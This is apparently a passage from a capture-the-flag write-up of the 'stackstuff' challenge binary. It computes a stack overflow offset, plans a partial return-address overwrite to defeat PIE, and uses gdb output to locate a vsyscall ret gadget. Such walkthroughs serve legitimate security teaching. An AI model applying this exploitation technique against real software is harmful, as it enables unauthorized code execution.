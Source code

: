 So we can see that the offset is `0x7fffffffdee8 - 0x7fffffffdea0 = 0x48`. Since this is above `0x32` and the length check, that means we have to give `0x5a` bytes worth of input. That means with our overflow we will have to overwrite the saved return address, the next qword, and the two lowest bytes of the next address (in this case the address at `0x7fffffffdef8`).

## Exploitation

So for our exploit, we will be doing a partial overwrite. We will be doing this to bypass PIE's address randomization, however there will be a bit of brute forcing needed (we will cover that later). However before we do that, we will be doing an overwrite of the saved return address and the QWORD next to it. For that we will need to find a valid instruction pointer to place there, which will essentially just return, and act as a placeholder to execute the address which we partially overwrote. However the problem with this is that PIE is enabled, and since we don't have any infoleaks we can't call rop gadgets from the PIE or libc segments. This is where vsyscalls will come in handy:

```
ef➤  vmmap
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555556000 0x0000000000000000 r-x /Hackery/pod/modules/partial_overwrite/hacklu15_stackstuff/stackstuff
0x0000555555755000 0x0000555555756000 0x0000000000001000 rw- /Hackery/pod/modules/partial_overwrite/hacklu15_stackstuff/stackstuff
0x0000555555756000 0x0000555555777000 0x0000000000000000 rw- [heap]
0x00007ffff7dcc000 0x00007ffff7df1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7df1000 0x00007ffff7f64000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7f64000 0x00007ffff7fad000 0x0000000000198000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fad000 0x00007ffff7fb0000 0x00000000001e0000 r-- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fb0000 0x00007ffff7fb3000 0x00000000001e3000 rw- /usr/lib/x86_64-linux-gnu/libc-2.29.so
0x00007ffff7fb3000 0x00007ffff7fb9000 0x0000000000000000 rw-
0x00007ffff7fce000 0x00007ffff7fd1000 0x0000000000000000 r-- [vvar]
0x00007ffff7fd1000 0x00007ffff7fd2000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd2000 0x00007ffff7fd3000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7fd3000 0x00007ffff7ff4000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ff4000 0x00007ffff7ffc000 0x0000000000022000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000029000 r-- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002a000 rw- /usr/lib/x86_64-linux-gnu/ld-2.29.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
gef➤  x.g <pre> 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
A syntax error in expression, near `.g <pre> 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]'.
gef➤  x/8g 0xffffffffff600000
0xffffffffff600000:    0xf00000060c0c748    0xccccccccccccc305
0xffffffffff600010:    0xcccccccccccccccc    0xcccccccccccccccc
0xffffffffff600020:    0xcccccccccccccccc    0xcccccccccccccccc
0xffffffffff600030:    0xcccccccccccccccc    0xcccccccccccccccc
gef➤  x/4i 0xffffffffff600800
   0xffffffffff600800:    mov    rax,0x135
   0xffffffffff600807:    syscall
   0xffffffffff600809:    ret    
   0xffffffffff60080a:    int3
gef➤  x/4i 0xffffffffff600800
   0xffffffffff600800:    mov    rax,0x135
   0xffffffffff600807:    syscall
   0xffffffffff600809:    ret    
   0xffffffffff60080a:    int3
```

